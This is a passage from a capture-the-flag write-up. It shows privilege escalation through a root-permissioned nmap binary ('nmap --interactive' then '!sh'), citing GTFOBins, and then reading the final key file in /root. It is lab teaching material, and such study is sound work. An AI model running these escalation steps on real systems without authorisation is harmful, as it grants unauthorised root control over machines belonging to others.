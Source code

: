   
But what is weird, in the directories of executables we have access too, we have '/usr/local/bin/nmap'. This is really strange indeed! And you know what they say about something being strange?  
Let's look into it further!  
  
On our personal terminal, let's run this command;  
```
$ nmap --help  
```
What we want to do here is get out of the current user and into root access. If we Google search "nmap command terminal interactive" we will see something from "GTFOBins"  
https://gtfobins.github.io/gtfobins/nmap/  
And what we are looking for is the ability to interact with the nmap commands directly!  
Now, according to this website, we can do the following;  
```
$ nmap --interactive  
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
  
$ !sh  
  
# whoami 
root  
```
And now we are root! The reason this worked is because NMAP has a special permission to be used as a root user! And this will work in real-world scenerios as well!  
  
Now, what do we do?  
check this out;  
```
# cd root
  
# ls  
firstboot_done  key-3-of-3.txt  
  
# cat key-3-of-3.txt  
04787ddef27c3dee1ee161b21670b4e4  
```
And there is our 3rd and final key!

Congrats on making it through this challenge!  
  
  
## Thank You  
I want to say thank you for following along. And if you have any questions, comments, or issues, please feel free to reach out to me directly;  
**Email** ~ cryptoh4ck3r@proton.me  
**Twitter** ~ https://twitter.com/CryptoH4ck3r  

